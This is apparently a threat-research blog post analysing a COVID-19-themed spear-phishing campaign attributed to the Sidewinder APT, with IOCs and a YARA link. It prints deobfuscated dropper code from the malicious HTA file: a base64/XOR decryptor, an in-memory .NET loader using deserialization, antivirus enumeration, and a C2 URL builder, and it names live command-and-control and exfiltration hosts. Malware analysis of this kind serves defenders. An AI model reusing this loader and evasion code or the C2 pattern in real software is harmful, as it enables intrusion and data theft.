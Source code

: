 ```yaml
---
layout: post
title: "Sidewinder: COVID-19 Themed Attack Campaign"
date: 2020-04-10 06:00:00 +0530
categories: ["threatresearch"]
tags: ["sidewinder","rattlesnake","india","pakistan","covid19","apt"]

---
```


Cyber-criminals and nation-backed threat actors are highly utilizing the COVID-19 pandemic as a lure to gain access to critical infrastructure inside organizations.

## Background
Sidewinder a.k.a Rattlesnake is believed to be an Indian state-backed APT group. The threat group actively conducts operations targeting military and government infrastructure in Pakistan and China and is believed to be operating since 2012.

## Source of Discovery
The malware sample discovery belongs to the [__RedDrip__](https://twitter.com/RedDrip7) Team who shared two VirusTotal reports.

- [__966029e.hta__](https://www.virustotal.com/gui/file/3d5f133790f807270f6a64743cb593673f820bca4aba406ee08fda1429a340bd/detection)
- [__Cb2e3e0[1].hta__](https://www.virustotal.com/gui/file/d302e75752341090fcc9a04bdf8ae8300cc4746b2c4abf7539daafaae275c1f0/detection)

## Intrusion Point
The initial intrusion point of the attack is a spear-phishing email sent to the target. The email contains an executable .lnk file that fakes itself as a PDF. The victim tries to open the PDF and the malicious .lnk file unintentionally gets executed.

<div><center><img src="/assets/img/posts/2020-04-21-lnk-file.png" title="Spear-Phishing .lnk File"></center></div>
<br>
The malicious .lnk file contains the address of command and control domain. As soon as the file is executed, the embedded command is executed which downloads the stage-1 .hta dropper from `http://www.nrots.net/images/5328C28B/15936/11348/7c8d64e9/e17e25e`.

## Malware Analysis
The malware dropper 966029e.hta contains highly obfuscated JavaScript code which can be divided into 4 blocks for understanding. Each block of code is meant for different purposes during the first phase of attack.

### Decryption Block
The very first function is meant for decoding any base64 string passed to it. The second function consumes an XOR key and a base64 string resulting in decrypted payload. The third function takes a base64 string and sends it to the second function to XOR with a key that is stored in the variable "keeee". Doing an XOR of the hardcoded base64 string "fGNWc3tkXnB0Zg==" with the hardcoded key "MUgF" results in the value of keeee "1615619693" which will be used to de-obfuscate the embedded payload.

```javascript
function YiJr(str){
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXY"+"Zabcdefghijklmnopqrstuvwxyz0123456789+/="
    var b, result = "",
       r1, r2, i = 0;
    for (; i < str.length;) {
        b = b64.indexOf(str.charAt(i++)) << 18 | b64.indexOf(str.charAt(i++)) << 12 |
            (r1 = b64.indexOf(str.charAt(i++))) << 6 | (r2 = b64.indexOf(str.charAt(i++)));
        result += r1 === 64 ? vLpfue(b >> 16 & 255) :
            r2 === 64 ? vLpfue(b >> 16 & 255, b >> 8 & 255) :
            vLpfue(b >> 16 & 255, b >> 8 & 255, b & 255);
    }
    return result;
    };
function xStrAmh (key, bytes){
    var res = [];
    for (var i = 0; i < bytes.length; ) {
        for (var j = 0; j < key.length; j++) {
            res.push(vLpfue((bytes.charCodeAt(i)) ^ key.charCodeAt(j)));
            i++;
            if (i >= bytes.length) {
                j = key.length;
            }
        }
    }
    return res.join("")
}
function rBEokCwZ(bsix){
    return xStrAmh(keeee,YiJr(bsix))
}
var keeee = xStrAmh("MUgF",YiJr("fGNW"+"c3tk"+"XnB0"+"Zg=="));
```

### Memory Writing Block
The decryption block decrypts the embedded binary which is loaded into the memory by the memory writing block of the JS script. The following code was decrypted using the functions from the decryption block:

```javascript
function Func4(b) {
    var enc = new ActiveXObject1("System.Text.ASCIIEncoding");
    var length = enc["GetByteCount_2"](b);
    var ba = enc["GetBytes_4"](b);
    var transform = new ActiveXObject1("System.Security.Cryptography.FromBase64Transform");
    ba = transform["TransformFinalBlock"](ba, 0, length);
    var ms = new ActiveXObject1("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    dash = ms;
}
```

### Enumeration Block
The enumeration block enumerates the victim machine in an attempt to find the current version of .NET framework installed on it. The following code was decrypted using the functions from the decryption block:

```javascript
var shells = new ActiveXObject1("WScript.Shell");
function tPYpmq(){
    var net = "";
    var FSO = new ActiveXObject1("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\ ").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
        fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
        if(fileEnum.item().Name == "csc.exe")
        {
            if(folder.Name.substring(0,2)=="v2")
                return "v2.0.50727";
            else if(folder.Name.substring(0,2)=="v4")
                return "v4.0.30319";
            }
            fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = Func5();
} catch(e) { 
    ver = "v2.0.50727";
}
```

### CnC Block
The CnC block collects information about installed anti-virus software and its current status of updates on the victim machine. This information is then used to craft a URL ```http://www.d01fa.net/plugins/16364/11542/true/true/``` to communicate with the command and control server and download the related payload.

```javascript
shells.Environment("Process")(COMPLUS_Version) = ver;;
    var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
    var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
    var objItem = new Enumerator(colItems); 
    var x = "";
    for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
    }
    var stm = Func4(so.split(".").join(''));
    var fmt = new ActiveXObject1("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
    var al = new ActiveXObject1("System.Collections.ArrayList");
    var d = fmt["Deserialize_2"](dash);
    al.Add(undefined);
    var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
    if(x && x.length){
        x = x + "_stg1";
    }
    var aUrl = "http://www.d01fa.net/plugins/16364/11542/true/true/"+x;
```

### Embedded Binary & Decoy
Within the dropper, two variables contain huge encrypted strings. One of the variables contains the stage-2 binary that is decrypted and written directly into the memory. The second variable contains content of a decoy PDF which is decrypted and shown to the victim. Analysis of the binary embedded in the former variable reveals its original name as ___LinkZip.dll___. The binary is a [__DotNetToJScript__](https://github.com/tyranid/DotNetToJScript) converter written by [James Forshaw](https://twitter.com/tiraniddo).

<div><center><img src="/assets/img/posts/2020-04-21-embedded-binary.png" title="Embedded DotNetToJScript Binary"></center></div>
<br>
The dropper also downloads a variant of the malware named [file.hta](https://www.virustotal.com/gui/file/34ab2e72624e808efa66cccb9ea2ec086b02927165dfc00d477cf573ffff2761/detection) for persistence. The decryption mechanism of the __file.hta__ is the same as the .hta dropper and is responsible for dropping the following binaries `C:\ProgramData\`

- [__Duser.dll__](https://www.virustotal.com/gui/file/c69456894fb70e6dfb4ef38bc926f8fc90a82a7b9427f429581a7cee22e09411/detection) - XOR decryptor for file containing the RAT
- SOHYXY.tmp - Encrypted payload decrypted by Duser.dll
- rekeywiz.exe - Windows legit binary
- rekeywiz.conf - configuration file for rekeywiz.conf

_Duser.dll_ decrypts the file named _"SOHYXY.tmp"_ and deploys the RAT for performing reconnaissance on the victim machines. The commands issued by the C2 server are stored in an encrypted file named [__font__](https://www.virustotal.com/gui/file/5e20dcef43ed82e97b881220f0e6971af364874f42849cea6e90030ebbd69f6c/detection). After decryption using the already discussed methodology, the C2 commands are revealed indicating that the stolen information is sent to `cloud-apt.net`
<br>
<br>

---
[___IOCs and YARA Signatures___](https://github.com/ahmadmkhan1/Threat-Research/blob/master/20200410_sidewinder_covid19-themed-attack-to-deploy-RAT.yar)
